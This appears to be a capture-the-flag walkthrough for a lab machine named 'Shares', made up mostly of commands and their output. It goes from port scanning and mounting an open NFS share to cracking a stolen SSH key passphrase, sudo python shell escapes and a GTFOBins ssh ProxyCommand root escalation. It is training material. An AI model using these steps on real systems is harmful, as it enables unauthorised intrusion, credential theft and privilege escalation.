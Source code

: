 # Shares

## Enumeration

### nmap:

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3

80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)

111/tcp open rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33317/tcp6 mountd
| 100005 1,2,3 47026/udp mountd
| 100005 1,2,3 52045/tcp mountd
| 100005 1,2,3 56412/udp6 mountd
| 100021 1,3,4 33401/tcp nlockmgr
| 100021 1,3,4 41275/tcp6 nlockmgr
| 100021 1,3,4 44254/udp nlockmgr
| 100021 1,3,4 60886/udp6 nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl

2049/tcp open nfs_acl syn-ack 3 (RPC #100227)
Service Info: OS: Unix

27853/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyk8rqOZBxSEXCu+mZCgIQOiHcAg/2ivCFVqGH0ehzvIN3eFZ5jll3zDyKehhaSyYeouoQZbpUk4fmTEqPFdUGjOzXhUhf6pQ0atKx3hms+b5ZLaCL2UjburequfIHCfDCbt6Wbj7dozIMmQ4+qjPQqBkUci7DjCTA/LbxNPL47hoC+3vAvCgRxAK6Yq4tUlil3eSgHX9EeJSxJQpDShPjTZ384+DUMx3VJbXFNBtxsUblPeykzrM18Hill3Yy/D4L9ZW0PJ5P3W+cFQuHc3RWLXCY6S1WmHDxGcI2UA3f2UaBDn2zm3cmgt3yKWTuqY98NlSh880AzmAcS6HpDlY/
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDF3clGPfC6R84UaHxAMoGIYn58Njt+Dth8rsl/Aa8W9SXquC3L+TGPb5dVRArkmCgta+moG16PhstNUHlyNVbA=
|   256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGKX5ZbEhRnQU7woPnhhFMtk+c0HJcj0T3xPfAWHTBH9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


36549/tcp open  mountd  syn-ack 1-3 (RPC #100005)

44829/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)

57327/tcp open  mountd  syn-ack 1-3 (RPC #100005)

```

There is a website running, a petshop, and a nfs server.
There is not much information on the website and ftp doesnt allow anonymous login, we can try to enumerate the nfs server.

```
$showmount -e 172.31.1.7

Export list for 172.31.1.7:
/home/amir *.*.*.*
```

Now we know there is a user called amir, and we can try to mount the amir folder on our machine

```
mount -t nfs 172.31.1.7:home/amir /mnt/TempNFS

drwxrwxr-x 5 nair0lf32 docker 4096  2 avril  2020 .
drwxr-xr-x 1 root      root     14 27 oct.  11:41 ..
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .bash_history
-rw-r--r-- 1 nair0lf32 docker  220  4 avril  2018 .bash_logout
-rw-r--r-- 1 nair0lf32 docker 3786  2 avril  2020 .bashrc
drw-r--r-- 2 nair0lf32 docker 4096  2 avril  2020 .cache
drw-r--r-- 3 nair0lf32 docker 4096  2 avril  2020 .gnupg
-rw-r--r-- 1 nair0lf32 docker  807  4 avril  2018 .profile
drwxrwxr-x 2 nair0lf32 docker 4096  2 avril  2020 .ssh
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .sudo_as_admin_successful
-rw-r--r-- 1 nair0lf32 docker 7713  2 avril  2020 .viminfo
```

We have access to the .ssh folder with amir's private id_rsa key. We crack that:  
First we use `python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john` to get a john formatted hash file, then we run john on the hash file:

```
john -w=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa)
1g 0:00:00:08 DONE (2021-10-27 11:52) 0.1213g/s 1740Kp/s 1740Kc/s 1740KC/sa6_123..*7¡Vamos!
Session completed


ssh creds:
amir:hello6

```

Now we can ssh as amir using his key...note that ssh is not on port 22

```
ssh amir@172.31.1.7 -i id_rsa -p 27853

amir@shares:/home$ ls
amir  amy
```

There seem to be another user called amy and as amir's folder is empty I guess our user flag is owned by amy.

We check sudo rights for possible lateral movement:

```
$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

And we can. we can run either python or pkexec as amy.
I chose python because I already know how to work with that one. Gotta explore pkexec too later.

```
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

And now we are amy. We get User Flag in amy's home folder:  
`cat access.txt`
Now its Privilege Escalation time:

```
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

Uh ok amy can run ssh as root? let's ask Gtfobins for help here

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And Its done, we are root. flag is in the root folder:

` cat system.txt`

And that's it. If you are curious enough remember to try the other way around. and find
other methods to get the flags. by example it seems to be a possible escalation with lxd from amir 'id command' to root.
